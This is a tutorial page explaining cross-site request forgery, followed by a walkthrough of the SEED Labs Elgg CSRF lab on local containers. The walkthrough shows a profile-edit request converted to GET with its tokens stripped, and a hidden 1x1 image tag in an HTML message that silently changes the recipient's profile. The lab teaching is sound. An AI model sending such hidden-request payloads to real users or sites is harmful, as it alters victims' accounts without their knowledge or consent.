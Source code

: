 Cross-Site Request Forgery (CSRF) is a security vulnerability in which an attacker tricks a legitimate user into performing an unwanted action on a website without their knowledge or consent.

In a CSRF attack, the attacker tricks the victim into clicking on a malicious link or visiting a malicious web page. This malicious page may contain an HTTP request that performs an unwanted action on the victim's website.

For example, imagine that a user is logged into their online banking account and then visits a malicious web page. The malicious page contains a form that sends an HTTP request to the bank's website to transfer funds from the user's bank account to the attacker's account. If the user clicks the submit button without knowing that they are performing a transfer, the CSRF attack will have been successful.

The CSRF attack can be used to perform a wide variety of unwanted actions, including transferring funds, modifying account information, deleting data and more.

To prevent CSRF attacks, web application developers must implement appropriate security measures, such as including CSRF tokens in HTTP forms and requests. These CSRF tokens allow the web application to verify that the request is coming from a legitimate user and not a malicious attacker (although beware that you can do little things with this too).

# Example

----
> For the example we are going to download the following resource via **wget**: [Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip).
> After the download we will run a **docker-compose up -d** to install the necessary [[Docker]] machines.
> In case we get an error like **networks.net-10.9.0.0.0 value Additional properties are not allowed ('name' was unexpected)** we must edit the file **docker-compose.yml** and delete the line number 41, the one that says name: **net-10.9.0.0**.
----

Before starting with the example, as we are going to be referring to local domains that may coincide with external domains, we are interested in adding them together with their URLs in our **/etc/hosts/** file:

```
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

The users we will be working with are as follows:

```
alice:seedalice
samy:seedsamy
```

The first thing we are going to do is to log in as *Alice*. If we go to where all the users appear and hovering in each one of them we can see that all of them have an associated id.

Therefore, the first test we are going to do is to change the name of our own user by observing this request with **Burpsuite**.

We see that the request is logically being sent by *POST*, but we are going to try to see if we can send it converting it to *GET* to be able to pass the parameters that we want:

```
GET /action/profile/edit?__elgg_token=waUlam3DKd8Bb9JrU8Bz6A&__elgg_ts=1688139603&name=Test&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56 HTTP/1.1
```

We can try removing the apparent unique identifiers before the *name* to see if the request still works:

```
GET /action/profile/edit
name=Test&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56 HTTP/1.1
```

We see that it still works and that those identifiers were not really used to validate the authentication by the user. We can try to change the *id* field to see if we can make requests on behalf of another user (with another id) but that will not work.

We are going to drop the petition so that the changes are not applied and we are going to return to *Alice*'s profile.

We see that there is a section to send messages to other users of the platform and we have the option to send it in **HTML** format. Let's try sending a message in **HTML** format to *Samy*:

```html
<h1>Hello my friend</h1>
```

We can see that the message is indeed received in HTML and the tags work.

As we can send GET requests, we can create a small image imperceptible by the user that includes the request that we want the other user to execute, in this case we are going to send the request to change his user name:

```html
<!--  We use the 'alt' tag to put a text on top and set the height and width of the image to 1 to make it unnoticeable -->
<img src="http://www.seed-server.com/action/profile/edit?name=Test&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=59" alt="IMPORTANT" width="1" height="1"/>
```

When Samy opens the message he will see a message "IMPORTANT" but on the back he will be changing his user name.

We can do this with any input on the web that supports **HTML** code and processes its requests through **GET**.